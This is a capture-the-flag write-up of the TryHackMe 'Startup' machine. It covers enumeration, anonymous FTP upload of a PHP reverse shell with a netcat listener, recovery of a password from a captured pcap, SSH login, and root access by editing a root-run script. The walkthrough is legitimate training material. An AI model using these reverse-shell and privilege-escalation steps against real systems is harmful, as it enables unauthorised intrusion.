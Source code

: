 ```yaml
---
title: THM Spice Hut
date: 2023-12-08T21:03:54.640Z
tags:
  - writeup
description: Writeup of TryHackMe's machine 'Startup' Aka Spice hut
---
```

# Initial Reconnaissance

Running an nmap service scan with default scripts on the host reveals the following

```
nmap -sV -sC 10.10.10.10
PORT   STATE SERVICE VERSION                                                                  
21/tcp open  ftp     vsftpd 3.0.3                                                             
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                        
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]                                                                                                               
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg       
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt          
| ftp-syst:                                                                   
|   STAT:                                                                     
| FTP server status:                                                          
|      Connected to 10.11.47.141                                                                                                                             
|      Logged in as ftp                                                       
|      TYPE: ASCII                                                            
|      No session bandwidth limit                                                                                                                            
|      Session timeout in seconds is 300                                      
|      Control connection is plain text                                       
|      Data connections will be plain text                                                                                                                                                   
|      At session startup, client count was 3                                 
|      vsFTPd 3.0.3 - secure, fast, stable                    
|_End of status                                                                               
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)                                                                           
| ssh-hostkey:                                                                
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)                                
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)                                                                                              
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)                                                                                            
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                                           
|_http-title: Maintenance                                                                                                                                                                    
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# Anonymous FTP

Interestingly, there is an FTP share open, with anonymous logon enabled. We can access this share and have a poke around.

```
└─$ ftp anonymous@startup.thm
Connected to startup.thm.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||14285|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```

On the share there is a file called notice.txt, which contains the following text:

`Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.`

This files indicates file download / view functionality from the share, we can run gobuster to try and find the URL from which we can download / view files.

```
$ gobuster dir -u http://startup.thm -w /usr/share/wordlists/dirb/common.txt
..
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/files                (Status: 301) [Size: 310] [--> http://startup.thm/files/]
/index.html           (Status: 200) [Size: 808]
```

The /files URL seems promising.

# Reverse Shellin

Nmap tells us that the `ftp` directory within the FTP share is writable, meaning we can put files in there. This will allow us to upload a reverse shell. From the nmap scan we can see that the web server uses apache, so a PHP shell will probably work.

I used [this](https://github.com/pentestmonkey/php-reverse-shell) PHP shell, modified the variables to point to my machine on port 4444, uploaded the file, and started a listener. Next I navigated to `http://startup.thm/files/php-shell.php` and received a callback to my listener. Next, we stabalise our shell and after a bit of poking around, the 'secret spicy soup recipe' can be found in recipe.txt in the root directory (/).

```
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.47.141] from (UNKNOWN) [10.10.144.233] 55476
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:50:51 up 9 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@startup:/$ cat /recipe.txt
#############################################
```

# Escaping www-data

Along with recipe.txt, in the root directory (/), there is a directory called `incidents`. Within this directory there is a PCAP file called `suspicious.pcapng`. We can copy this across to our Kali machine and open it in wireshark.

```
$ cd /incidents
$ scp suspicious.pcapng kali@10.11.47.141:/home/kali/Desktop/THM/startup/sus.pcapng
```

When the file is opened in wireshark, there is a lot of traffic. After inspection, it looks like the traffic shows another user uploaded a reverse shell (shell.php) and then tries to run commands, authenticating with a password. We can follow the TCP stream to port 4444 that the user used in order to view the commands:

![](/img/virtualboxvm_nkyfhwkzbk.png)

Within the exchange of commands, there is a snippet as follows:

```
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: c4ntg3t3n0ughsp1c3
```

This reveals the password `c4ntg3t3n0ughsp1c3`. My first thought was that maybe this person thought they were `lennie`, and this is `lennie's` password. So I tried SSHing to lennie's account on the machine and authenting with this password was successful, and we can read the user flag.

```
$ ssh lennie@startup.thm
password: c4ntg3t3n0ughsp1c3

$ cat /home/lennie/user.txt
THM{########################################}
```

# Privilege Escalation

Within `lennie's` home directory, there is another directory called `scripts`, which contains two files: `planner.sh`, and `startup_list.txt`. Lennie can not modify planner.sh, however can read it. `planner.sh` contains the following:

```
$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

After checking the permissions of `/etc/print.sh`, we can modify this. Given that root is the owner of the `planner.sh` file, maybe if we modify `/etc/print.sh` to perform some privileged command, we can write the results to our home directory. We know the flag file is `/root/root.txt`, so let's modify `/etc/print.sh` as follows:

```
$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
cat /root/root.txt > /home/lennie/root.txt
```

Within a minute or so, there is a `root.txt` file in `lennie's` home directory!

```
$ cat /home/lennie/root.txt
THM{##############################################}
```